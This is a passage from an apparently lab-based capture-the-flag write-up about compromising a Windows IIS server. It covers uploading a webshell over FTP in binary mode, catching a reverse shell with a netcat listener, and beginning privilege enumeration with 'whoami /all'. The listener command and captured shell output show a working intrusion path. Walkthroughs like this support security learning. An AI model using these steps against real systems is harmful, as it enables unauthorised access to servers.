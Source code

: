 ```
```

> Note that before uploading the webshell, we need to set the mode to binary to tranfer binary data rather than the default, ascii. If we let it keep the default, it will corrupt the payload and it will fail to run upon visiting it on the site. 
{: .prompt-warning }

Now that thats done, set up the listener.

`rlwrap nc -nvlp 4444`

> I use rlwrap since it makes the janky shell much more tolerable. 
{: .prompt-tip }


Now that it is set up, when we visit the shell that we uploaded on the site, we should recieve a shell as the webserver back on our listener. Let's see if it worked.


![](https://i.imgur.com/nNysxyP.png)



Blank page, well its to be expected, its just going to run our payload. Let's look at our listener.

```                                                                            
listening on [any] 4444 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.5] 49242
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```
Boom! Look at that, it worked perfectly! 

## Root
---
So I've learned in previous workshops and from listening to Lawrence and Evan with a healthy dose of a strong reminder from Dylan, webshells are especially dangerous on windows machines because of one major built in flaw.

`whoami /all`
```
USER INFORMATION
----------------

User Name       SID                                                           
=============== ==============================================================
iis apppool\web S-1-5-82-2971860261-2701350812-2118117159-340795515-2183480550


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
```
